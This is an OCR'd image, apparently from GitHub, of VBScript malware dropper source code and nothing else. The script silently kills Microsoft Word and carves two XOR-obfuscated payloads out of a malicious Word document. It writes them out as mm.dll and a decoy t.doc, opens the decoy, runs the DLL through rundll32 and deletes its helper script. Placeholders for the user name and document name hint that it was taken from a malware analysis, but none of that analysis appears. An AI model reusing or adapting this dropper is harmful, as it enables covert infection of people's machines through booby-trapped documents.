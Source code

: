 On Error Resume Next    set shell=createobject("Shell.Application")      shell.ShellExecute "cmd"," /c taskkill  -f -im winword.exe ","","",0          wscript.sleep 3000                dim str                                                                         dim L1                                                                          dim L2                                                                          dim Len                                                                         dim infile                                                                      dim outfile1                                                                    dim outfile2                                                                    infile = "C:\Documents and Settings\<username>\Desktop\<malicious document name>.doc"                                                               outfile1 = "C:\Documents and Settings\<username>\Local Settings\Application Data\mm.dll"                                                              outfile2 = "C:\Documents and Settings\<username>\Local Settings\Application Data\t.doc"                                                             L1=     78924                                                                         L2=     38912size=    144893                                                                    offset1 = size-L1-L2                                                            offset2 = size-L2                                                               Len=0                                                                           str = ReadBinary (infile,L1,offset1)                                            WriteBinary outfile1, str                                                      str = ReadBinary (infile,L2,offset2)                                            WriteBinary outfile2, str                                                       Function ReadBinary(FileName,length,offset)                                      Dim Buf(), I                                                                    With CreateObject("ADODB.Stream")                                               .Mode = 3: .Type = 1: .Open: .LoadFromFile FileName : .Position = offset        Len =length -1                                                                 ReDim Buf(Len)                                                                  For I = 0 To Len: if(I=0)  then Buf(I)=(AscB(.Read(1))) else if ((I mod 2)=0) then Buf(I)=(AscB(.Read(1)) xor AscB(chr(65))) else Buf(I)=(AscB(.Read(1)) xor AscB(chr(67))) end if               Next                             .Close                                                                        End With                                                                        ReadBinary = Buf                                                              End Function                                                                    Sub WriteBinary(FileName, Buf)                                                    Dim I, aBuf, Size, bStream                                                      Size = UBound(Buf): ReDim aBuf(Size \ 2)                                        For I = 0 To Size - 1 Step 2                                                        aBuf(I \ 2) = ChrW(Buf(I + 1) * 256 + Buf(I))                               Next                                                                            If I = Size Then aBuf(I \ 2) = ChrW(Buf(I))                                     aBuf=Join(aBuf, "")                                                           Set bStream = CreateObject("ADODB.Stream")                                    bStream.Type = 1: bStream.Open                                                  With CreateObject("ADODB.Stream")                                               .Type = 2 : .Open: .WriteText aBuf                                              .Position = 2: .CopyTo bStream: .Close                                        End With                                                                        bStream.SaveToFile FileName, 2: bStream.Close                                   Set bStream = Nothing                                                         End Sub                                                                         set shell=createobject("Shell.Application")      shell.ShellExecute "C:\Documents and Settings\<username>\Local Settings\Application Data\t.doc"                 shell.ShellExecute "rundll32","""C:\Documents and Settings\<username>\Local Settings\Application Data\mm.dll"",Setting"                 Set xa = CreateObject("Scripting.FileSystemObject")                        If xa.FileExists("C:\Documents and Settings\<username>\Local Settings\Application Data\ss.vbs") Then                                            Set xb = xa.GetFile("C:\Documents and Settings\<username>\Local Settings\Application Data\ss.vbs")                                              xb.Delete                                                                    End If
